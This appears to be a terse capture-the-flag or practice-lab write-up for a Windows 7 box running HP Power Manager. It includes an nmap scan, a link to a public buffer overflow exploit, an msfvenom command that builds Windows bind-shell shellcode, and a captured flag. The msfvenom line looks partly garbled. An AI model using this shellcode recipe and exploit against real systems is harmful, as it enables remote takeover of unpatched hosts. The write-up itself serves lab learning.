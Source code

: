 # Kevin \[Easy]

## Report

HP Power Manager on port 80 vulnerable to buffer overflow, exploit to become SYSTEM

## Enumeration

192.168.177.45

```
PORT      STATE SERVICE     VERSION
80/tcp    open  http        GoAhead WebServer
| http-methods: 
|_  Supported Methods: GET HEAD
| http-title: HP Power Manager
|_Requested resource was http://192.168.177.45/index.asp
|_http-server-header: GoAhead-Webs
135/tcp   open  msrpc       Microsoft Windows RPC
139/tcp   open  netbios-ssn Microsoft Windows netbios-ssn
445/tcp   open  `�?!�U      Windows 7 Ultimate N 7600 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  tcpwrapped
| ssl-cert: Subject: commonName=kevin
| Issuer: commonName=kevin
|_ssl-date: 2025-10-19T13:56:17+00:00; -1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: KEVIN
|   NetBIOS_Domain_Name: KEVIN
|   NetBIOS_Computer_Name: KEVIN
|   DNS_Domain_Name: kevin
|   DNS_Computer_Name: kevin
|   Product_Version: 6.1.7600
|_  System_Time: 2025-10-19T13:56:01+00:00
3573/tcp  open  tag-ups-1?
49152/tcp open  msrpc       Microsoft Windows RPC
49153/tcp open  msrpc       Microsoft Windows RPC
49154/tcp open  msrpc       Microsoft Windows RPC
49155/tcp open  msrpc       Microsoft Windows RPC
49158/tcp open  msrpc       Microsoft Windows RPC
49160/tcp open  msrpc       Microsoft Windows RPC
Service Info: Host: KEVIN; OS: Windows; CPE: cpe:/o:microsoft:windows
```

### Files

None

### Initial Foothold

#### 80

HP Power Manager 4.2 (Build 7)

{% embed url="https://github.com/Muhammd/HP-Power-Manager.git" %}

## PrivEsc

follow payload format in script

`msfvenom -p windows/shell_bind_tcp LHOST=192.168.45.233 LPORT=1234 EXITFUNC=thread -b '\x00\x1a\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5' x86/alpha_mixed --platform windows -f python`

## Loot

### Creds

None

### Flags

8ee4b87656bcc8f2a44639d35c09d63a

## Proof

Keeping with the bof, not really there for us but hey doesn't hurt to do something that's not explicitly mentioned right
